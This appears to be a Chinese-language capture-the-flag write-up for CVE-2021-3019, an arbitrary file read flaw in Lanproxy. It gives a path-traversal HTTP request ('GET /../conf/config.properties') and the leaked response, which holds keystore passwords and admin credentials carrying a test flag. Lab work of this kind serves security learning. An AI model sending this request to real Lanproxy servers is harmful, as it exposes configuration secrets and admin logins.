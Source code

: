 # lanproxy_cve-2021-3019

根据 `CVE-2021-3019 Lanproxy 任意文件读取漏洞`  读取配置文件获取 FLAG

### Request

```http
GET /../conf/config.properties HTTP/1.1
Host: IP:PORT
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

### Response

```http
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Server: LPS-0.1
Content-Length: 369

server.bind=0.0.0.0
server.port=4900

server.ssl.enable=true
server.ssl.bind=0.0.0.0
server.ssl.port=4993
server.ssl.jksPath=test.jks
server.ssl.keystorePassword=123456
server.ssl.keyManagerPassword=123456
server.ssl.needsclientAuth=false

config.server.bind=0.0.0.0
config.server.port=8090
config.admin.username=FLAG
config.admin.password=flag{GZCTF_dynamic_flag_test}
```


![获取flag](assets/获取flag.png)


